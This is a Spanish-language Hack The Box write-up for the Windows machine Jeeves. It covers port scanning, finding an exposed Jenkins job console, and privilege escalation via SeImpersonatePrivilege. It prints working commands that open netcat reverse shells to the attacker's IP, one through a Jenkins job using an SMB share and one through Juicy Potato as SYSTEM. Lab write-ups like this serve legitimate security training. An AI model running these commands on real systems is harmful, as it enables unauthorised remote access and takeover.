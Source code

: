 ```yaml
---
title: Jeeves Writeup
date: 2022-08-08
categories: [Writeup, HTB]
tags: [Windows, Jenkins, RCE, CMD, Powershell]
image:
  path: /assets/img/jeeves/jeeves.png
  width: 500 #normal 800
  height: 500 #normal 500
  alt: jeeves
---
```


# Maquina windows JEEVES.
En esta maquina tendremos que hacer RCE desde una aplicacion llamada JENKINS con una version vulnerable, que nos permite ejecutar comandos de windows cmd o powershell , ejecutaremos comandos para obtener una revershell.

# Reconocimiento.
Con nmap ejecutamos el reconocimiento.

````bash
>nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oG scan 10.10.10.63
 
>Host: 10.10.10.63 ()	Status: Up
Host: 10.10.10.63 ()	
Ports: 80/open/tcp//http/// 
135/open/tcp//msrpc/// 
445/open/tcp//microsoft-ds/// 
50000/open/tcp//ibm-db2/// Ignored State: filtered (65531)
```` 

Copiamos los puertos abiertos y ejecutamos con nmap 

````bash
>nmap -sCV -p80,135,445,50000 -Pn -oN scanport 10.10.10.63

>PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-09-08T21:10:39
|_  start_date: 2022-09-08T21:07:37
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
`````

# Enumeracion
Vamos a revisar los puertos abiertos 80,135,445,50000

## Puerto 445
Usamos  crackmapexec  para obtener informacion de la maquina, vemos que es un windows 10 el nombre del dominio y el nombre da la maquina.

````bash
>crackmapexec smb 10.10.10.63

>SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False)
`````

Con smbclient vemos que no tenemos acceso a recursos compartidos.

````bash
>smbclient -L 10.10.10.63 -N

>session setup failed: NT_STATUS_ACCESS_DENIED
`````

## Puerto 80.
Vamos a la url http://10.10.10.63 

![imagen-de-prueba](/assets/img/jeeves/pagina-puerto-80.png)


Vemos que la pagina nos muestra algo sencillo y un campo para hacer preguntas, hacemos una prueba ingresando algo en el campo search pero la pagina nos redireciona a una imagen que habla de un error 

![imagen-de-prueba](/assets/img/jeeves/error-pagina-80.png)
# Puerto 50000
Revisando el scanport de nmap vemos el puerto 50000 abierto con un servicio 

````bash
50000/tcp open  http         `Jetty 9.4.z-SNAPSHOT`
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
`````

Vamos a la url http://10.10.10.63:50000 

![imagen-de-prueba](/assets/img/jeeves/puerto-50000.png)


Viedo esto intentamos realizar un escaneo con wfuzz a la url con el puerto 50000.

````bash
>wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ
`````

Despues de unos minutos el escaneo nos da el una ruta llamada `askjeeves`

![imagen-de-prueba](/assets/img/jeeves/wfuzz.png)

Vamos a la url con la nueva ruta http://10.10.10.63:50000/askjeeves, nos lleva a jenkins que es un servidor de automatizacion.

![imagen-de-prueba](/assets/img/jeeves/jenkins.png)


Tenemos un panel donde investigando un poco vemos q podemos crear tareas

![imagen-de-prueba](/assets/img/jeeves/jenkins-2.png)

Analizando un poco vemos que la tarea nos permite ejecutar comandos windows con cme o powershell, viendo esto ya imaginamos vias potenciales para acceder al sistema.

![imagen-de-prueba](/assets/img/jeeves/jenkins-tareas.png)

![imagen-de-prueba](/assets/img/jeeves/comandos-cmd .png)

Creamos la tarea con un comando por cmd para hacer un ping a mi maquina.
 
![imagen-de-prueba](/assets/img/jeeves/pingg.png)

Ejecuto tcpdump para ver si mi maquina responde al ping

````bash
>sudo tcpdump -i tun0 icmp
`````

![imagen-de-prueba](/assets/img/jeeves/tcpdump.png)


Como se ve en la imagen tengo respuesta y ya conesto sabemos que el servidor jenkins es vulnerable y se puede hacer un RCE.

# Intrusion 
Tenemos conocimiento de que podemos hacer RCE con el servidor jenkins, hay muchas formas de ejecutar comandos para tener acceso remoto a la maquina, yo lo hare con smbserver para crear un recurso compartido y luego creo una tarea en jenkins que ejecute un comando para generar una revershell.

1. Con smbserver creo un recurso compartido.

````bash
>sudo impacket-smbserver smbFolder $(pwd) -smb2support 
`````

2. Descargo netcatx64.exe y lo guardo en la ruta de mi recurso compartido.

3. Creo la tarea en jenkins y agrego el siguiente comando.

````bash
>\\10.10.14.16\smbFolder\ncx64.exe -e cmd 10.10.14.16 443
`````

4. Nos ponemos en escucha con nc ,el smbserver esta activo , ejecutamos la tarea y obtenemos una revershell

![imagen-de-prueba](/assets/img/jeeves/revershell.png)


# Escalar privilegios 
Una vez dentro de la maquina vemos que estamos con el usuario `kohsuke`, ejecutemos algunos comandos que nos de informacion de este usuario.

````bash
>whoami /priv
`````

imagen de seimpersonal


El usuario cuenta con el `SeImpersonatePrivilege` lo cual nos proporciona una forma de escalar privilegios, para eso usamos una herramienta llamada `Juicy Potato` que nos permite escalar desde una cuenta normal y ejecutar comandos como `NT AUTHORITY\SYSTEM`.

1. Descargamos desde github el binario .exe
2. Subimos el binario a la maquina victima
3. Ejecutamos el siguiente comando para escalar privilegios.

````bash
.\jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443"

##La ruta del ejemplo es de donde almacene el netcat
`````

![imagen-de-prueba](/assets/img/jeeves/revershelladmin.png)
